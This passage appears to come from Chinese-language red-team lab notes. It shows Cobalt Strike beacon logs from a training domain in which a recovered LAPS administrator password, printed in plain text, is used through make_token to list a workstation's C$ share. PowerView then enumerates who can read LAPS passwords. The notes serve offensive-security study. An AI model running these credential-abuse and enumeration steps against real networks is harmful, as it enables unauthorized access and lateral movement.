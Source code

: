beacon> ls \\wkstn-2\c$
[*] Tasked beacon to list files in \\wkstn-2\c$
[+] host called home, sent: 42 bytes
[-] could not open \\wkstn-2\c$\*: 5
beacon> make_token .\lapsadmin fk43i9785W8Cw5
[*] Tasked beacon to create a token for .\lapsadmin
[+] host called home, sent: 56 bytes
[+] Impersonated DEV\bfarmer
beacon> ls \\wkstn-2\c$
[*] Tasked beacon to list files in \\wkstn-2\c$
[+] host called home, sent: 42 bytes
[*] Listing: \\wkstn-2\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:43:43   Program Files
          dir     02/16/2022 12:46:57   Program Files (x86)
          dir     08/17/2022 23:31:12   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 14:45:10   System Volume Information
          dir     05/05/2021 16:13:00   Users
          dir     08/13/2022 01:01:57   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     08/25/2022 23:21:22   pagefile.sys
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661472563036.png)



假如不能使用LAPS的powershell工具集（假设本机未启用LAPS，当前用户也无权访问启用LAPS的机器），使用powershell在任何一台机器上可以起到与上面等价的枚举操作

```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[+] host called home, sent: 145560 bytes
beacon> powershell Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier
[*] Tasked beacon to run: Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier
[+] host called home, sent: 893 bytes
[+] received output:
#< CLIXML

ObjectDN                                              SecurityIdentifier       
--------                                              ------------------       
OU=Workstations,DC=dev,DC=cyberbotic,DC=io            S-1-5-21-3263068140-20...
CN=WKSTN-1,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-20...
CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io S-1-5-21-3263068140-20...
